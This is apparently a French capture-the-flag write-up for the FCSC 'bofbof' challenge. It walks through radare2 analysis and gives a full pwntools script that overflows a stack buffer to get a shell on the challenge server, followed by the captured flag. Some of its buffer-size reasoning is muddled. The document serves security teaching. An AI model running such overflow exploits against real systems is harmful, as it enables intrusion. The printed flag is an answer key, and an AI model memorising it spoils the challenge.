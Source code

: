 # BOFBOF

catégorie | points
:-----: | :----:
Intro | 20

## 0x0 Intro

>Votre but est d'obtenir un shell sur la machine pour lire le fichier flag.txt.
>
>nc challenges2.france-cybersecurity-challenge.fr 4002
>
>SHA256(bofbof) = bd78bff2d72fcc6ebc82f248ea14761d66fc476aca13eed22db541f2960f9fce

## 0x0 Explication

Un binaire, un shell à obtenir, vous savez ce que cela veut dire ??? REVERSING TIME !

## 0x1 Reconnaissance

Avant tout, soit on file sur le serveur pour voir comment réagit via la commande donnée dans l'énoncé.
Soit on le rend éxécutable sur notre machine et on le test en local:

```bash
chomd +x bofbof && ./bofbof
```

Celui ci va nous gratifier d'un magnifique :

```bash
Comment est votre blanquette ?
>>> 
```

Si vous êtes sur le serveur, si vous essayez une chaine au hasard, la connexion se ferme instantanément.

Premier réflexe, essayer un buffer overflow, si vous êtes en local, vous aurez ce magnifique message:

```bash
Comment est votre blanquette ?
>>> Almost there!
[1]    27372 segmentation fault (core dumped)  ./bofbof  < /usr/bin/echo
```

Ok, segmentation fault, on peux être sur un buffer overflow avec execution de code comme sur [poney du FCSC 2020](https://blog.caturday-lovers.fr.nf/?p=144) que nous avions résolu.

Pour en être certain, nous allons l'examiner.

## 0x2 Radare time

Même si cela semble compliqué à utiliser, sur ce genre d'exercice, cela reste toujours plus lisible.

On commence par charger l'éxécutable dans Radare2:

![r2 load](./IMG/radare1.png)

Une fois chargé, on l'analyse (cela aurait pu être fait avec l'option -AA au lancement)

![r2 analyse](./IMG/radare2.png)

Une fois analysé, nous alons pouvoir regarder plus en profondeur le code:

![r2 pdf main](./IMG/radare3.png)

Je vous ai mis en avant les points important:

point | explication
:----:| :----:
1 | vérifie si la chaine dans RAX est égale à 0x4141414141414141 (soit AAAAAAAA)
2 | vérifie si la chaine dans RAX est égale à 0x1122334455667788
3 | si RAX n'est pas égale à la chaine présenté en 2 alors on jump
4 | on exécute la partie sym.vuln, interessant, nous l'étudierons
5 | notre message d'erreur, et comme nous pouvons le constaté, si nous sommes égale à AAAAAAAA on ne l'aura pas.

Et quand nous examinons sym.vuln, nous trouvons le code suivant:

![r2 pdf sym.vuln](./IMG/radare4.png)

MAZELTOV, c'est par ici que nous accèderons au shell.

## 0x3 Exploitation

Donc, nous avons compris que nous allons avoir une chaine a entrer dans bofbof,
qui y un certain moment, devra être égale à la valeur de 0x1122334455667788.

Pour ce faire, nous devons connaitre une chose importante, la taille du buffer.

Il est indiqué au début du main, sous la forme:

>132: int main (int argc, char **argv, char **envp);
>
>│           ; var char *s @ rbp-0x30
>
>│           ; var uint32_t var_8h @ rbp-0x8

Que cela nous indique t'il ? deux choses:

 La taille max de la chaine est 0x30 et le buffer en 64 bits est de 0x8.
 Notre chaine devra donc se situer à -10 caractères (les 8 de la valeur désirée -2 pour le linebreak, le \n)

 Il est temps de lancer VIM, et de commencer à coder en python.

## 0X4 Coding

Pour faciliter les choses, et ne pas se prendre la tête sur le big endian et le petit endian,
nous allons utiliser la librairie pwntools

```python
#!/usr/bin/env python
# coding: utf-8

import pwn
import argparse

# pwn.context.log_level = "debug"
shell = "challenges2.france-cybersecurity-challenge.fr"
port = 4002
winArg = 0x1122334455667788
charge = pwn.cyclic(0x20 + 8)
payload = charge + pwn.p64(winArg)
binary = "./bofbof"


def startExploit(isOnline):
    try:
        if isOnline:
            Online()
        else:
            Local()
    except:
        pwn.error("C'était un accident ! UN BANAL ACCIDENT DE TRAPÈZE")
    finally:
        pwn.info("Ah ! C'était donc ça tout ce tintouin.")


def Local():
    pwn.context.binary = binary
    pwn.info("Mais qu'est-ce que c'est que ce guet-apens ?!")
    stdout = pwn.process.PTY
    stdin = pwn.process.PTY
    target = pwn.process([binary], stdout=stdout, stdin=stdin)
    target.sendlineafter(">>>", payload)
    target.interactive()


def Online():
    pwn.info("C'est pas moi ! j'ai vu, je sais qui c'est, mais je ne dirais rien !")
    conn = pwn.remote(shell, port)
    conn.recvline()
    conn.sendlineafter(">>>", payload)
    conn.interactive()


def main():
    parser = argparse.ArgumentParser(
        description="Excuter Hubert en ligne ou local", prog="Exploit.py"
    )
    parser.add_argument(
        "-o",
        "--online",
        dest="isOnline",
        help="Hubert en mode online",
        action="store_true",
        default=False,
    )
    args = parser.parse_args()
    if args.isOnline:
        Online()
    else:
        Local()


if __name__ == "__main__":
    main()
```

On test sur notre cible en locale, et nous accèdons à un shell. On a gagné !
On passe l'exploit en mode online en ajoutant -o au lancement:

![we have a shell and the flag !](./IMG/hubert.png)

le flag était donc:

>FCSC{ec30a448a777b571734d8d9e4036b3a6e87d1005446f80dffb26c3e4f5cd02ba}

## 0X5 TL;DR

Le flag était accessible en entrant une chaine forgée afin que la représentation
de la fin de la chaine en héxadécimale soit égale à 0x1122334455667788

Pour faire cela, le script [exploit.py](./Exploit.py) avec l'aide de pwntools va intéragir avec
le chall afin de nous laisser accéder au shell proposé sur la machine.

